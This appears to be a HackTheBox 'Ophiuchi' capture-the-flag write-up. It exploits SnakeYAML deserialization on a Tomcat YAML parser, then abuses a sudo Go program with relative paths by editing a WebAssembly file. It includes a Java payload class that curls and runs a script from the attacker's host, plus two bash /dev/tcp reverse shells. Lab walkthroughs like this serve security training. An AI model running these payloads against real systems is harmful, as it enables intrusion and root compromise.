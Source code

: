 # Hackthebox - Ophiuchi

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.125
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 8080 which is HTTP is open, so I open the webpage and got this.
![](Ophiuchi/webpage.png)

Next I started a gobuster to find directories.
![](Ophiuchi/gobuster.png)

I try clicking around the website and see that it is a YAML parser. I try putting in some stuff but always got a message saying the feature is disabled.                              
![](disabled.png)

I started searching about "YAML deserilization exploit" and got an article (https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858). I just try running the exploit blindly just to see if it works.
![](payload.png)

I setup a listener and got a hit back from the box.
![](curledhit.png)

So now I know the exploit works, but I still doesn't have command execution. The article aboves dives in more to how we can do a remote command execution through this exploit. We basically provide a java class file which contains our command. I want to test the exploit first so I do a simple curl command to my machine. Below is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("curl 10.10.14.66:8888");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

I convert the java file to a class file.
![](convertjavaclass.png)

Setup a python server to host my class file.
![](python3server.png)

Send the YAML payload to the web server.                                                                                      
![](payload2.png)

I got a curl back from the box to my machine.
![](curled2.png)

So its confirmed that the command execution works. Now I created a reverse shell bash script and download it to the box and execute it with bash. Here is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl 10.10.14.66:8000/rev.sh -o /tmp/rev.sh");
			Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

I created the **rev.sh** bash script.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.66/7777 0>&1
```

Setup a listener, send the payload and got a shell as the tomcat user.
![](tomcatshell.png)

Next I try looking through the conf directory in tomcat's home directory and got a credentials for the user admin.
![](adminpass.png)

I try SSH to the box as admin with that password and got in.
![](userflag.png)

I try running **sudo -l** and the user admin can execute a file written in go.
![](sudo-l.png)

I look at the contents of the file and try to analyse what it does.
```bash
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)

func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

Its calling **deploy.sh** and **main.wasm** but isn't using absolute paths. Which means I can make the script call my files instead.

I go to **/dev/shm** and created **deploy.sh** file.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
```
The file will only execute the **deploy.sh** file if variable f is equal to 1. The variable f is taken from **main.wasm**, which is a web assembly file. I search around for how to work with a wasm file and found a tool (https://github.com/webassembly/wabt). The wasm file can be converted to web assembly text format which is more human readable.

So I send the **main.wasm** file to my box.
![](ncsendwasm.png)

Convert it into wat format.
![](convertwat.png)

Now I can see the contents.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

There is a function called info which is pulled by the **index.go** file. So I can just make the info function returns 1. So I edit the file with nano.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

I converted the wat file back to wasm format.
![](wattowasm.png)

curl the new wasm file
![](ls-la.png)

Execute the full sudo command.
![](runsudo.png)

And I got a shell as root.
![](rooted.png)
